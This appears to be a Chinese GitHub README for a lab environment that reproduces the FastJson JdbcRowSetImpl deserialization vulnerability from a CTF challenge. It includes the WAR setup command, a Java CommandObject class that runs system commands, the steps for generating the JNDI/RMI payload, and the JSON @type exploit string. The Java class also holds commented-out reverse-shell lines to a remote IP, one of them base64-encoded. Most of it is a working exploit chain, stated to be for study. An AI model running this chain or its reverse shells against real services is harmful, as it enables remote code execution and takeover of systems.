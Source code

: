 # FastJson-JdbcRowSetImpl

## 初心

### 在前不久的护网杯CTF比赛中，有一道Web的“easy_web”题，其实就是利用FastJson的JdbcRowSetImpl类反序列化漏洞进行Shell，然后cat Flag。一大部分人对这道题是懵逼的，没做出来，后面因护网杯题目关闭了，没有此漏洞的学习环境，所以我就写了此环境，方便大家学习交流。

## 漏洞环境构建

```
root@Bearcat:/# wget "https://github.com/iBearcat/FastJson-JdbcRowSetImpl/raw/master/FastJson_Vul.war" -P /opt/apache-tomcat-8.5.24/webapps/ && cd /opt/apache-tomcat-8.5.24/bin/ && ./startup.sh
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/1.jpg?raw=true)

### 访问漏洞环境 http://localhost:8888/FastJson_Vul

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/2.jpg?raw=true)

## 漏洞利用

### 在CommandObject.java类中的commands数组中构造想要执行的命令

### 编译 javac CommandObject.java

```
import	java.lang.Runtime;
import	java.lang.Process;
public class CommandObject {
    public CommandObject(){
        try{
			Runtime	rt	=	Runtime.getRuntime();
			//Runtime.getRuntime().exec("/bin/bash -i >&/dev/tcp/192.168.43.14/2018<&1");
			//String[] commands = {"bash -c {echo,L2Jpbi9iYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC40My4xNC8yMDE4PCYx}|{base64,-d}|{bash,-i}"};
			
			String[] commands = {"touch","/opt/test"}; //Command
			Process	pc = rt.exec(commands);
			pc.waitFor();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        CommandObject e = new CommandObject();
    }
}
```

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/3.jpg?raw=true)

## 漏洞利用

### 开启一个HTTP服务，并且开启 RMIServer

### 如：

```
Python2 -m SimpleHTTPServer 80
Python3 -m http.server 80
```

### 生成Payload

```
java -jar FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar <HTTP服务地址> 指定RMI端口
```

### FastJson_JdbcRowSetImpl_JNDI_RMIServer.jar 会生成一串Json Payload

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/4.jpg?raw=true)

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.43.14:6666/Object","autoCommit":true}
```

### 把它Copy到漏洞环境的input中，然后submit进行攻击。

![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/5.jpg?raw=true)


### 成功执行命令，并touch test

```
String[] commands = {"touch","/opt/test"}; //Command
```
![20181019](https://github.com/iBearcat/FastJson-JdbcRowSetImpl/blob/master/images/6.jpg?raw=true)

# 致谢我的好基友

### pyn3rd https://github.com/pyn3rd/CVE-2018-2893
### 背影   https://github.com/yanweijin
